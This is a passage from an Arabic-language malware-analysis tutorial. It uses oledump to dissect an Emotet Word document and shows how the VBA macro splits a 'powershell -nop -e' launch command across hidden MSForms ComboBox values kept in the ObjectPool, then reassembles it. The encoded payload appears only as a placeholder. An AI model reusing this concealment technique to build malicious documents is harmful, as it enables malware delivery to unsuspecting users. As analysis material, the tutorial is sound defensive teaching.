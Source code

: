 
لذلك سوف نعود ل بقية الملفات stream الموجودة بالمستند لمعرفة القيمة الحقيقة لهذه المتغيرات.  
عند المرور بكافة الملفات سوف نجد أن ملف 9 يحتوي على تعريف للقيم التي نبحث عنها.   
![](https://i.ibb.co/pJQXh7p/12.png)
  
================================================


- Attribute VB_Control = "FFuiAR, 0, 0, MSForms, ComboBox"
- Attribute VB_Control = "P1Ylfc5, 1, 1, MSForms, ComboBox"
- Attribute VB_Control = "XMW15zI, 2, 2, MSForms, ComboBox"  


 ================================================

هنا نلاحظ وجود MSForms  للقيم الثلاثة  FFuiAR و P1Ylfc5 و XMW15zI  تحتوي على controls 
و في مثالنا هنا أحتوي على  ComboBox والذي يعد أحد MSForms controls  


 
لهذه ال  controls مجموعة من القيم قد لا يتعرف عليها oledump أو الأدوات الأخرى على أنها تحتوي على  macro لذلك قد تبدوا خاليه/خاوية. 

لكن المستند يقوم بحفظ هذه البيانات فيما يسمى ObjectPool والتي تحتوي على قيم هذه المتغيرات. 

عند كتابة الأمر 

`oledump.py emotetSarahAljaber.doc`   

 سوف نلاحظ ب المخرجات وجود هذه ObjectPool تشير كل مجموعة منها الى متغير من المتغيرات الثالثة  FFuiAR و P1Ylfc5 و XMW15zI

![](https://i.ibb.co/GTfJmxj/13.png)

عند استخراج الأسماء بكتابة الأمر:  

`oledump.py -s #StreamNumber  emotetSarahAljaber.doc`  
![](https://i.ibb.co/S3vvWSz/14.png) 

StreamNumber  نقوم بوضع رقم الملف الذي يشير للأسم في حالتنا التاليه ملف 25 و 29 و 33 

لنجد أن: 
- 1620852731 = FFuiAR  
- 1620852732 = P1Ylfc5 
- 1620852733 = XMW15zI


عند استخراج بقية القيم وتحديدًا محتوى هذه المتغيرات نلاحظ اكتمال معنى الأمر السابق   
![](https://i.ibb.co/LDTYL19/15.png)

`CreateObject(FHWTtiz).Create "pow" + ThisDocument.P1Ylfc5 + 
ThisDocument.XMW15zI + ThisDocument.FFuiAR` 

لتصبح 


`CreateObject(FHWTtiz).Create "pow" + "ersh" + 
"ell -nop -e "+ "obfuscated powershell code " ` 

القيمة النهاية للأمر:  

